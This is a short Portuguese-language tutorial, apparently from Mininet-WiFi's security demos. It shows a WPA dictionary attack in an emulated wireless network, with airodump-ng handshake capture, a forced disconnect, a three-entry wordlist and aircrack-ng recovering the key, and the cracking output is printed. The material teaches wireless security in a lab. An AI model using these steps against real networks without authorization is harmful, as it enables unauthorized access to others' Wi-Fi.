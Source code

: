 ```yaml
---
tags: security-tutorials
---
```


# Dictionary attack

**In this short demo you will:** 
- How to perform a dictionary attack

**Requirements:** 
- Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
- airodump-ng


Primeiro, execute uma topologia simples com o comando abaixo:

```
~/mininet-wifi$ sudo python examples/authentication.py
```

Para realizar este experimento, vamos inicialmente criar uma interface do tipo monitor chamada `mon0` a partir da estação **sta1**.

Para criar uma interface do tipo monitor: 

```
mininet-wifi> sta1 iw dev sta1-wlan0 interface add mon0 type monitor
```

Então, vamos utilizar o **airodump-ng** para capturar beacons na interface recém-criada:

``` 
mininet-wifi> sta1 ifconfig mon0 up
mininet-wifi> sta1 airodump-ng mon0
```

:::warning
Se o airodump-ng não estiver instalado, instale-o com **sudo apt install aircrack-ng.** 
:::


Identifique o endereço MAC da estação na coluna station. 
**Dica**: Identifique o BSSID do AP ao qual a estação está conectada. O SSID pode servir de apoio.

Então, rode novamente o **airodump-ng** com os parâmetros abaixo:


```
mininet-wifi> xterm sta1
sta1-term# airodump-ng --bssid 02:00:00:00:02:00 mon0 -w minha-captura
```

Em seguida, force a desconexão de **sta1** 
```
mininet-wifi> sta1 iw dev sta1-wlan0 disconnet
```

Agora, crie um arquivo chamado arquivo.psk contendo o seguinte conteúdo:
```
123456789a
abcdefgh
0011223344
```

Em seguida, rode o comando abaixo:

```
mininet-wifi> sta1 aircrack-ng -w arquivo.psk -b 02:00:00:00:02:00 minha-captura-01.cap
```

E voi-lá! Senha descoberta!

```
Aircrack-ng 1.6 

      [00:00:00] 3/3 keys tested (63.70 k/s) 

      Time left: --

                          KEY FOUND! [ 123456789a ]


      Master Key     : E0 3D DC 8E 51 FB 0A 35 A6 EE 6D DF 9B 6B 69 EB 
                       E8 C0 7B D2 50 95 63 A7 26 43 DD B2 0F 46 E6 21 

      Transient Key  : 55 6C 6D AA 5D B2 DC E6 C3 FB 38 59 C8 B4 5D B3 
                       1E 3B AB 48 81 8E 94 AB 50 94 9E 25 61 8D D4 F0 
                       B9 1E 4F 3C 9C 84 48 3D 8B 09 86 1D 98 31 23 57 
                       4B 03 8F B4 86 8F 8D A4 59 CD 30 2D 71 D7 AF 18 

      EAPOL HMAC     : C1 3D 58 9D 02 CB 03 4A FC 3D 44 96 FF 2D 5D 79
      ```
